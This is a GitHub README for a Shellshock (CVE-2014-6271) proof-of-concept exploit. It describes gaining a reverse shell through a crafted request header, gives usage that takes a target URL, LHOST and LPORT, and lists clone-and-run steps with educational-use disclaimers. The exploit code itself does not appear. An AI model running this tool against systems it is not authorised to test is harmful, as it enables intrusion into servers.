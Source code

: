# Shellshock Exploit (CVE-2014-6271)

#### Exploit
## <u>Description</u>
This repository contains an exploit for a vulnerability that affects unix-based systems. Please note that this is merely a proof-of-concept script created for educational purposes and should be used responsibly.

This exploit is designed to demonstrate how the shellshock attack works and how it could be used to gain shell access to a system through a maliciously crafted request header.

### <u>Disclaimer</u>
This repository is intended for educational purposes only. Do not use this code or any information contained within for malicious purposes. Always follow ethical guidelines and respect the law.


Usage:
	python3 {sys.argv[0]} [Vulnerable URL] [LHOST] [LPORT]
Example:
	python3 {sys.argv[0]} http://vulnerablewebsite.com/cgi-bin/test.cgi 109.876.654.321 1234

Prerequisites:
- A local development environment
- Python installed
- To run this exploit, you can follow these steps:

Clone this repository to your local machine.
```
git clone https://github.com/AlissoftCodes/Shellshock.git
```

Navigate to the project directory.
```
cd Shellshock
```

Run the shellshock.py script.
```
python3 shellshock.py http://vulnerable-website.com listening_interface_IP listening_port
```

###### Please remember that this exploit should never be used against real software or systems you're not authorized to test. Unauthorized access or any malicious activity is illegal.

#### <u>License</u>
_This exploit is released under the MIT License. You can find more information about this in the LICENSE file.


# Author: Alisson Faoli

#### Github: https://github.com/AlissoftCodes
#### LinkedIn: https://linkedin.com/in/alisson-faoli



<b>If you have any questions or concerns about this exploit, please feel free to contact the author</b>
